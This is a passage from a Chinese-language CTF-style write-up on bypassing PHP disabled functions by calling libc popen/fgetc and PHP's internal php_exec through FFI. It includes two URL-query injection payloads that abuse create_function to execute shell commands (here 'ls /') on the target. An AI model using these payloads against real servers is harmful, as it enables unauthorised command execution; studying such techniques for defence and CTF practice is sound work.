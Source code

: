 但这里也失败了，可能还是权限的问题。所以，我们还要找别的C库函数。

**（二）利用FFI调用C库的popen函数**

C库的system函数调用shell命令，只能获取到shell命令的返回值，而不能获取shell命令的输出结果，如果想获取输出结果我们可以用popen函数来实现：

```php
FILE *popen(const char* command, const char* type);
```

popen()函数会调用fork()产生子进程，然后从子进程中调用 /bin/sh -c 来执行参数 command 的指令。

参数 type 可使用 "r"代表读取，"w"代表写入。依照此type值，popen()会建立管道连到子进程的标准输出设备或标准输入设备，然后返回一个文件指针。随后进程便可利用此文件指针来读取子进程的输出设备或是写入到子进程的标准输入设备中。

所以，我们还可以利用C库的popen()函数来执行命令，但要读取到结果还需要C库的fgetc等函数。payload如下：

```php
/?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("void *popen(char*,char*);void pclose(void*);int fgetc(void*);","libc.so.6");$o = $ffi->popen("ls /","r");$d = "";while(($c = $ffi->fgetc($o)) != -1){$d .= str_pad(strval(dechex($c)),2,"0",0);}$ffi->pclose($o);echo hex2bin($d);/* 
```

成功执行命令：

![image-20211127001920694](image/命令执行/image-20211127001920694.png)

**（三）利用FFI调用PHP源码中的函数**

其次，我们还有一种思路，即FFI中可以直接调用php源码中的函数，比如这个php_exec()函数就是php源码中的一个函数，当他参数type为3时对应着调用的是passthru()函数，其执行命令可以直接将结果原始输出，payload如下：

```php
/?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("int php_exec(int type, char *cmd);");$ffi->php_exec(3,"ls /");/*
```
